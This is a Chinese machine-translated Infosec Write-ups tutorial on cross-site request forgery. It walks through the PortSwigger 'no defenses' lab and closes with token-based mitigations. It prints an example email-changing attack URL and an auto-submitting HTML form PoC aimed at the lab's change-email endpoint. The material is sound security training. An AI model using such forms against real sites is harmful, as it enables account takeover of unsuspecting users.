





# 跨站点请求伪造(CSRF)解释和利用 I

> 原文：<https://infosecwriteups.com/cross-site-request-forgery-csrf-explained-and-exploited-i-db464a61a582?source=collection_archive---------2----------------------->

嗨！这篇博客将教你 CSRF 袭击是如何发生的，以及我们如何预防它们。

所以最大的问题是…


跨站点请求伪造是一个 web 安全漏洞，使得攻击者能够代表受害者执行操作。攻击者可以代表用户在易受攻击的 web 上执行所有相关操作。

# **说明:**

让我们以一个典型的网站为例，该网站容易受到跨站点请求伪造的攻击，它允许普通用户注册、更新密码、更改电子邮件和删除帐户以及其他基本功能。并且除了会话之外，没有其他机制来验证用户执行的动作。攻击者可以生成一个 URL 来更改用户的电子邮件，诱使受害者单击链接并执行操作。有时，只要访问恶意 URL，就会自动执行操作并更改电子邮件，从而导致完全接管帐户。

该 URL 可能是服务器上托管的漏洞的链接，其中包括完成操作的请求表单，也可能是带有执行操作的参数的应用程序的直接链接。

```
[http://vulnerable](http://vulnerable)web.com/email/change-email?value=hacker@mail.com
```

当受害者访问链接时，会发出 post 请求，用户的电子邮件会被更改为攻击者的电子邮件。

你可能会问，如何才能让 T2 对 CSRF 的袭击成功。

嗯！

*   **相关动作:**攻击者有动机诱导的应用程序内的相关动作。例如，对用户数据的任何更改，如更新电子邮件和密码。
*   **基于 cookie 的会话处理:**这意味着除了会话 Cookie，应用程序没有其他方法来验证动作。
*   **请求中没有不可预测的变化:**执行动作的请求不包含任何参数，攻击者无法推断或预测这些参数的值。例如，如果攻击者必须知道现有密码的值才能迫使用户更改他们的密码，那么该函数就不容易受到攻击。

# CSRF 开拓发展:

这是攻击中唯一难以掌握的过程。

但是如果你有一个 Burpsuite 专业人员，那么它不应该是一个问题，因为它包含了 [CSRF 概念生成器](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc)这是完全的生活救星。但是如果您没有 Brupsuite Professional，那么您可以使用

 [## CSRF PoC 生成器

CSRF](https://security.love/CSRF-PoC-Genorator/)  [## 纳卡诺克- CSRF 概念验证生成器在线

### 编辑描述

tools.nakanosec.com](https://tools.nakanosec.com/csrf/) 

这两种工具都更容易产生 CSRF 漏洞。

所以我们现在可以尝试一些实验室来掌握它的窍门，WDYS？

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

[实验室 1:未实施防御的 CSRF](https://portswigger.net/web-security/csrf/lab-no-defenses):

本实验室的电子邮件更改功能易受 CSRF 攻击。

为了解决这个实验室，制作一些 HTML，使用 [CSRF 攻击](https://portswigger.net/web-security/csrf)来改变查看者的电子邮件地址，并将其上传到您的漏洞服务器。

您可以使用以下凭证登录您自己的帐户:`wiener:peter`

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

这很简单，我们需要更改查看者的电子邮件地址，并且没有实施任何防御措施。

我们登录吧。



更改电子邮件功能

登录后，我们可以看到一个更新电子邮件功能，让我们尝试一下，通过 Burp 拦截 HTTP 流量。



我们可以看到，只有会话被传递来验证操作，这个请求中没有其他不可预测的值。

现在复制该请求，并使用上述工具生成 POC。



您应该会得到这样的结果

```
<html>
 <body>
  <form method="POST" action="[https://0ae700d403442cd8c0ca028400140041.web-security-academy.net/my-account/change-email](https://0ae700d403442cd8c0ca028400140041.web-security-academy.net/my-account/change-email)">
   <input type="hidden" name="email" value="test4%40mail.com"/>
   <input type="submit" value="Submit">
  </form>
 </body>
<html>
```

但是您需要做一些更改来使它自动提交。

```
<html>
 <body>
  <form method="POST" action="[https://0ae700d403442cd8c0ca028400140041.web-security-academy.net/my-account/change-email](https://0ae700d403442cd8c0ca028400140041.web-security-academy.net/my-account/change-email)">
   <input type="hidden" name="email" value=**"ENTER EMAIL"**/>
   <input type="submit" value="Submit">
  </form>
**<script>document.forms[0].submit(); </script>** </body>
<html>
```

这使得当受害者访问该链接时，表单被自动提交。



现在将漏洞存储在服务器上。

然后交给受害者。

当受害者访问链接时，实验室将被解决。



在下一部分中，我们将在防御到位的情况下执行这次攻击。

**减轻 CSRF:**

减轻 CSRF 攻击最有效的方法是在相关请求中包含令牌。令牌应该是:

*   **高熵**不可预测，一般为会话令牌。
*   **链接到用户的会话。**
*   **在每种情况下，在执行相关动作之前，严格验证**。

有一个关于如何防止 CSRF 袭击的博客

[](https://www.veracode.com/blog/secure-development/preventing-csrf-attacks) [## 防止 CSRF 攻击| Veracode

### 跨站点请求伪造(CSRF，有时发音为“海浪”,不要与跨站点脚本混淆)是…

www.veracode.com](https://www.veracode.com/blog/secure-development/preventing-csrf-attacks) 

下一部分，我们将解决一些高级实验室。

到那时为止

快乐的黑客❤！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！